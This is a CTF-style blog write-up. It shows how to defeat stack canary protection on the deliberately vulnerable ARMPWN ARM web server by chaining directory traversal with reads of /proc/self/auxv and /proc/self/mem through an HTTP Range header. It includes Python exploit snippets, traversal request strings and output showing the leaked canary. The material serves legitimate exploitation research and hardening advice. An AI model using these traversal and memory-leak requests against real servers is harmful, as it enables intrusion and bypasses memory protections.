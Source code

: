 +++
title = "ARMPWN redux: canary reloaded"
author = "hugsy"
date = 2017-01-24T00:00:00Z
updated = 2017-01-24T00:00:00Z

[taxonomies]
tags = ["linux,pwn,arm,ssp,armpwn"]
categories = [" ctf"]

[extra]
header_img = "img/canary-header.png"
+++

>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

# Intro

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is [here](https://www.elttam.com.au/blog/playing-with-canaries)
  * the code repository is [there](https://github.com/elttam/canary-fun)

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8) (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/posts/2016/06/13/armpwn-challenge-write-up.html), a vulnerable web server
created by  {{ twitter(user="5aelo") }} to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176)
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976)


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201)
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

```c
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
```

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary).


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

```python
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
```

And then parse the result:

```python
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
```

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

```python
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
```


<div markdown="span" class="alert-warning"><i class="fa fa-info-circle">&nbsp;Warning:</i> `yama/ptrace_scope` must be set to 0 to be able to read the process</div>
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

```txt
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
```

To be we fetched the correct value for the canary of the remote process, we can use [this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally to compare the values for the canary:

{{ img(src="https://i.imgur.com/IWpuMIy.png" title="image_alt") }}



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore defeat the SSP protection. As you may have noticed, since this attack does not rely on memory corruption, it is extremely reliable. And it is also much faster: the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as possible, especially on production systems, since restricting `ptrace`, or refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any question/comment ☕
